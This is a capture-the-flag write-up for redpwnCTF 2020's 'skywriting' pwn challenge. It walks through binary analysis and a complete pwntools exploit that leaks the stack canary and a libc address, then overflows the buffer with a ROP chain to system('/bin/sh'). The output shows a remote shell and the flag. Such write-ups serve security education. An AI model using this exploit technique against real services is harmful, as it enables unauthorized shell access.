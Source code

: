 # redpwnCTF 2020

## pwn/skywriting

> NotDeGhost
> 
> 480
>
> It's pretty intuitive once you [disambiguate some homoglyphs](https://medium.com/@TCS_20XX/pactf-2018-writeup-skywriting-a5f857463c07), I don't get why nobody solved it...
> 
> `nc 2020.redpwnc.tf 31034`
>
> [`skywriting.tar.gz`](skywriting.tar.gz)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _stack-canary_


## Summary

Canary leak to enable BOF, ROP, Shell.

> BTW, this is the first time I noticed the _homoglyphs_ link in the task description.  It has zero to do with this challenge.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Default `gcc` mitigations in place. 

    
### Decompile with Ghidra

![](main.png)

At first glance, if you start out with anything other than `1`, then you get `/bin/zsh`, easy:

```
# nc 2020.redpwnc.tf 31034
Hello there, do you want to write on the sky?
no
:(, take this shell instead
```

No shell, it wasn't going to be _that_ easy, but worth checking anyway.

So, start out with a `1` and you'll be in a loop until you send `notflag{a_cloud_is_just_someone_elses_computer}\n`.  While in this loop `read` will _read_ up to `0x200` bytes into a buffer that will bump up to the canary after `0x98 - 0x10` bytes (see Ghidra stack diagram).

The stack check does not happen until after the loop exits, so you can safely overwrite and read the stack.

Ignore `FUN_0010093a()`, it's just there to provide one of five different trolling messages.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./skywriting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31034)
```

Initial setup.  The libc version was implied in the included `Dockerfile` (Ubuntu 18.04).

```python
# get canary
p.sendlineafter('sky? \n','1')
payload = (0x98 - 0x10 + 1) * b'A'
p.sendafter('shot: ',payload)
p.recvuntil((0x98 - 0x10 + 1) * b'A')
_ = b'\x00' + p.recv(7)
canary = u64(_)
log.info('canary: ' + hex(canary))
```

First pass, leak the canary.  Established in the Analysis section, the canary is `0x98 - 0x10` down from the input buffer (`local_98`), by adding `1` more `A` to the payload we'll corrupt the least significant canary byte, a byte that is always `0x00`, so no information lost.  By replacing the null, the `printf` on line 32 (see decompile above) will print all our `A`'s followed by the canary and anything else down stack until a null is reached.

> Notice the use of `send` vs `sendline`, we do not want a NL corrupting the 2nd to last canary byte, then we lose information.  OTOH, I guess if the NL landed on the last byte (the known null byte), then it'd be fine.

```python
# get libc, just after rbp
# __libc_start_main+231
payload = 0x98 * b'A'
p.sendafter('shot: ',payload)
p.recvuntil(0x98 * b'A')
_ = p.recv(6) + b'\x00\x00'
__libc_start_main = u64(_) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

Second pass.  Leak libc.  I used GDB to find libc in the stack.  I just set a break point at the first `puts` and then looked at the stack from the canary down:

```
0x00007fffffffe538│+0x0098: 0xca6f52637c914000
0x00007fffffffe540│+0x00a0: 0x0000555555554b70  →   push r15 ← $rbp
0x00007fffffffe548│+0x00a8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

The first line is the canary, and right after `$rbp` is the return address that also happens to be a libc address, so we just need to write out `0x98` (`local_98` is `0x98` bytes from the return address--see Ghidra stack diagram) bytes to get to the return address which happens to be `__libc_start_main+231` from libc.

The libc leak code is not unlike the canary leak code.  In both cases as long as there is no null in the canary or the last 6 bytes of the return address, we're good to go (probably not a bad idea to check).

> x86_64 addresses are only 48-bits (for now), so we only need to collect 6 bytes.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

# lets get out of here
payload  = b'notflag{a_cloud_is_just_someone_elses_computer}\n\x00'
payload += (0x98 - 0x10 - len(payload)) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])
p.sendafter('shot: ',payload)

p.interactive()
```

Final pass.  With the leaked canary and libc location known we can BOF and ROP to a shell.  To get past the `strcmp` check, a null needs to be inserted in the payload--that is as far as `strcmp` will check.  The rest of the payload is `A`'s up to, but not including the canary, then the leaked canary, then any 8 bytes for RBP, then our ROP chain to a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2020.redpwnc.tf on port 31034: Done
[*] canary: 0x32aac44eaca73d00
[*] __libc_start_main: 0x7f690a80aab0
[*] baselibc: 0x7f690a7e9000
[*] Loaded 196 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] Switching to interactive mode
Good job! You did it!
$ cat flag.txt
flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}
```
